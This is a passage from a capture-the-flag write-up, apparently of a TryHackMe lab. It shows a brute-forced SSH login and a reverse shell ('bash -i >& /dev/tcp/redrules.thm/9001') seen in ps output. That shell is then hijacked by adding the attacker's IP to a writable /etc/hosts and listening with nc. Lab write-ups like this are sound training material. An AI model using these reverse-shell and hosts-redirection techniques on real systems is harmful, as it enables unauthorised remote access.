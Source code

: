 - Now, I started enumeration for escalation and well.............

  ```
  blue@red:~$ Fine fine, just run sudo -l and then enter this password WW91IHJlYWxseSBzdWNrIGF0IHRoaXMgQmx1ZQ==
  Say Bye Bye to your Shell Blue and that password
  Connection to 10.10.34.14 closed by remote host.
  Connection to 10.10.34.14 closed.
  
  echo 'WW91IHJlYWxseSBzdWNrIGF0IHRoaXMgQmx1ZQ==' | base64 -d
  You really suck at this Blue
  ```
  
- YA BOI KICKED ME OUT HAHAHAHAHAHAHAHAHAHAHA.

- OK, you probably saw multiple messages popping off in SSH and there is a way to bypass this malicious cronjob that kicks `blue` everytime we login. Use `-T` while logging in with SSH which doesn't create `pts` file. Also, you must brute force a new password again...

  ```
  [22][ssh] host: 10.10.34.14   login: blue   password: sup3r_p@s$w0rd!123
  ssh blue@10.10.34.14 -T
  sup3r_p@s$w0rd!123
  ```

- Since there is a malicious cronjob that kicked me out, there must be something else in the background running right?

  ```
  ps aux
  red        14811  0.0  0.0   6972  2668 ?        S    11:24   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
  red        14832  0.0  0.0   6972  2520 ?        S    11:25   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
  ```

- This is a classic reverse shell so let's abuse it. Check permissions for `/etc/hosts` and edit them if we have write permission. (ofc we do lol). Then start a listener on port 9001 and wait for connection.

  ```
  ls -al /etc/hosts
  -rw-r--rw- 1 root adm 242 Jun  7 11:24 /etc/hosts
  
  cat /etc/hosts
  127.0.0.1 localhost
  127.0.1.1 red
  192.168.0.1 redrules.thm
  
  # The following lines are desirable for IPv6 capable hosts
  ::1     ip6-localhost ip6-loopback
  fe00::0 ip6-localnet
  ff00::0 ip6-mcastprefix
  ff02::1 ip6-allnodes
  ff02::2 ip6-allrouter
  
  lsattr /etc/hosts
  -----a--------e----- /etc/hosts
  
  echo "[YOUR-THM-IP]  redrules.thm" >> /etc/hosts
  
  nc -lvnp 9001
  listening on [any] 9001 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.34.14] 42234
  bash: cannot set terminal process group (14914): Inappropriate ioctl for device
  bash: no job control in this shell
  red@red:~$ whoami
  whoami
  red
  ```